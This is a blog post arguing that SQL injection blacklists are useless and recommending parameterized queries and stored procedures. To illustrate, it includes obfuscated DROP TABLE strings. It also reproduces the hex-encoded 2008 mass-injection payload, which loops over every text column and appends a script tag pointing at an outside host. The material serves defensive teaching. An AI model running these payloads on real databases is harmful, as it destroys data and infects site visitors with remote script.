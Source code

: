 ```yaml
---
title: Please don’t use blacklists, use parameterized queries or stored procs instead
author: SQLDenis
type: post
date: 2012-04-05T10:55:00+00:00
excerpt: "Every now and then you will hear how some site will use a blacklist to 'protect' themselves against sql injection. Using a blacklist is very foolish because you can't ever think of all the different ways that the bad guys will try to bypass your little&hellip;"
url: /index.php/datamgmt/datadesign/please-don-t-use-blacklists/
views:
  - 13977
rp4wp_auto_linked:
  - 1
categories:
  - Data Modelling and Design
  - Database Programming
  - IBM DB2
  - Microsoft SQL Server
  - MySQL
tags:
  - best practices
  - security
  - sql injection

---
```

Every now and then you will hear how some site will use a blacklist to &#8216;protect&#8217; themselves against sql injection. Using a blacklist is very foolish because you can&#8217;t ever think of all the different ways that the bad guys will try to bypass your little list.
  
Let&#8217;s say you have DROP and DROP TABLE in your list.

What about these two

<pre>PRINT REVERSE('tset ELBAT PORD')
PRINT convert(VARCHAR(100),0x44524F50205441424C4520746573740000000000)</pre>

Change PRINT to EXEC() and both will result in DROP TABLE Test

Remember this one?

<pre>DECLARE @S VARCHAR(4000);SET @S=CAST(0x4445434C415245204054205641524348415228323535292C40432056415243484152283235
3529204445434C415245205461626C655F437572736F7220435552534F5220464F522053454C45435420
612E6E616D652C622E6E616D652046524F4D207379736F626A6563747320612C737973636F6C756D6E73
206220574845524520612E69643D622E696420414E4420612E78747970653D27752720414E442028622E
78747970653D3939204F5220622E78747970653D3335204F5220622E78747970653D323331204F522062
2E78747970653D31363729204F50454E205461626C655F437572736F72204645544348204E4558542046
524F4D205461626C655F437572736F7220494E544F2040542C4043205748494C4528404046455443485F
5354415455533D302920424547494E20455845432827555044415445205B272B40542B275D2053455420
5B272B40432B275D3D525452494D28434F4E5645525428564152434841522834303030292C5B272B4043
2B275D29292B27273C736372697074207372633D687474703A2F2F7777772E63686B626E722E636F6D2F
622E6A733E3C2F7363726970743E27272729204645544348204E4558542046524F4D205461626C655F43
7572736F7220494E544F2040542C404320454E4420434C4F5345205461626C655F437572736F72204445
414C4C4F43415445205461626C655F437572736F7220 AS VARCHAR(4000));print @S;</pre>

That becomes this

<pre>DECLARE @T VARCHAR(255),@C VARCHAR(255) 
DECLARE Table_Cursor CURSOR FOR SELECT a.name,b.name 
FROM sysobjects a,syscolumns b 
WHERE a.id=b.id AND a.xtype='u' AND (b.xtype=99 OR b.xtype=35 OR b.xtype=231 OR b.xtype=167) 
OPEN Table_Cursor 
	FETCH NEXT FROM Table_Cursor INTO @T,@C 
	WHILE(@@FETCH_STATUS=0) 
	BEGIN 
--I changed EXEC to PRINT, just in case you are foolish enough to run this
		PRINT('UPDATE ['+@T+'] SET ['+@C+']=RTRIM(CONVERT(VARCHAR(4000),['+@C+']))+''&lt;script src=http://SomeFakeSite&gt;&lt;/script&gt;''') 
		FETCH NEXT FROM Table_Cursor INTO @T,@C 
	END 
CLOSE Table_Cursor DEALLOCATE Table_Cursor </pre>

That infected millions of pages in 2008, there are still variants of this one today. A blacklist won&#8217;t help you in this case.

You can also protect yourself against this attack by denying SELECT permissions on the sysobjects table, your website user should not have access to these tables in general. If you use stored procedures you can just give access to the stored procedures and nothing else.

Every web framework today offers a way to use parameterized queries and or stored procedures. There is really no excuse to fall victim to a SQL injection attack these days. 

Even using an ORM like Hibernate or Entity Framework is protected against SQL Injection because it use sp_executesql with proper parameters behind the scenes.

If you do use stored procedures, you might still have a problem if you are using dynamic SQL inside the proc with EXEC and concatenation instead of sp_executesql with proper parameters

So why do people start out by using code that is prone to SQL injection? I think there are two parts to this. 

  1. It is easier to debug and see what is contained in the string by doing a debug.write/response.write now you can see exactly what is being sent to the DB
  2. There are still books/online examples around that show code that concatenate user input with SQL

Whenever I see code like this when a person asks for help, I immediately tell that person his code is vulnerable to a SQL injection attack, it is my duty to alert this person, it is yours too, we need to educate these people